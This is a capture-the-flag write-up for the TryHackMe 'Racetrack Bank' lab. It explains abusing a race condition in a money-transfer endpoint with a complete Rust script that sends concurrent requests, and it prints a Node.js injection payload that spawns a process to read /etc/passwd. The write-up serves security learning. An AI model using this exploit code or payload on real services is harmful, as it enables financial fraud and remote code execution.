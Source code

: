 # Racetrack Bank

A Hard-rated room.

https://tryhackme.com/room/racetrackbank

Only ports 22 and 80 are open, and on 80 is a banking website where you can create a user, login and send money to other users. On new account creation it gives you 1 gold. Additionally, there is the ability to purchase 'premium' features for 10000 gold. Going by the name, this was some sort of race condition most likely in transferring money.

To bypass this, I created two users: one with the name and password `test` and the other with `test2`. Then I wrote a Rust program that would make concurrent webrequests from one to the other, sending the maximum amount of gold as many times as possible (~20 times over the VPN). Doing this back and forth only a couple of times was sufficient to give user `test` over 10000 gold... the code is in the appendix below.

Once done, I could buy the premium feature, which turned out to be a simple calculator field. Given that the server reports itself as running express, a nodejs web framework, I tried an injection payload which worked to achieve RCE: `{{root.process.mainModule.require('child_process').spawnSync('cat',['/etc/passwd']).stdout}}`.



## Rust race condition exploiter.

This requires the following cargo.toml dependencies:

```yaml
[dependencies]
anyhow = "1.0.70"
futures = "0.3.27"
reqwest = "0.11.15"
tokio = { version = "1.26.0", features = ["macros", "rt-multi-thread"] }
```

Ensure the appropriate users are created, and update the constant url in the code before running:

```rust
use std::collections::HashMap;
use anyhow::Result;

use futures::{stream, StreamExt};
use reqwest::{Proxy, header::COOKIE, redirect::Policy, Client};

const CONCURRENT: usize = 20;
const SITE_URL: &str = "http://10.10.57.199";

async fn client() -> Result<Client> {
    Ok(reqwest::Client::builder()
        .proxy(Proxy::http("http://127.0.0.1:8080")?)
        .redirect(Policy::none())
        .build()?)
}

fn page_url(page: &str) -> String {
    format!("{}/{}", SITE_URL, page)
}

#[tokio::main]
async fn main() -> Result<()> {

    let user1 = get_auth_cookie("test").await?;
    let user2 = get_auth_cookie("test2").await?;

    let mut gold1 = get_gold_amount(&user1).await?;
    while gold1 < 10000 {
        println!("{gold1}");
        race_send(&user1, "test2", gold1).await?;
        let gold2 = get_gold_amount(&user2).await?;
        race_send(&user2, "test", gold2).await?;
        gold1 = get_gold_amount(&user1).await?;
    }    

    println!("done");
    Ok(())
}

async fn get_auth_cookie(username: &str) -> Result<String> {
    let client = client().await?;
    let mut params = HashMap::new();
    params.insert("username", username);
    params.insert("password", username);
    let resp = client.post(page_url("api/login")).form(&params).send().await?;

    let cookie = &resp.headers()["set-cookie"];
    let cookie = cookie.to_str().unwrap().to_string();
    Ok(cookie[..cookie.find(";").unwrap()+1].to_string())
}

async fn get_gold_amount(cookie: &str) -> Result<i32> {
    let client = client().await?;
    let resp = client.get(page_url("home.html")).header(COOKIE, cookie).send().await?;

    let body = resp.text().await?;
    let pos = body.find("Gold: ").unwrap();
    let pos2 = body[pos+6..].find("</a>").unwrap();
    let text = &body[pos+6..pos+pos2].trim();
    Ok(text.parse::<i32>().unwrap())
}

async fn race_send(cookie: &str, target_user: &str, amount: i32) -> Result<()> {
    let tasks = vec![(&cookie, &target_user, amount); CONCURRENT];
    let futures = 
        tasks.iter().map(|(cookie, target_user, amount)| async move {
            let client = reqwest::Client::builder()
            .redirect(Policy::none())
            .build().unwrap();

            let mut params = HashMap::new();
            params.insert("user", (**target_user).to_string());
            params.insert("amount", format!("{}", amount));
            client.post(page_url("api/givegold")).header(COOKIE, **cookie).form(&params).send().await.expect("failed to call");
        });
        
    stream::iter(futures).buffer_unordered(CONCURRENT).collect::<()>().await;
    Ok(())
}
```
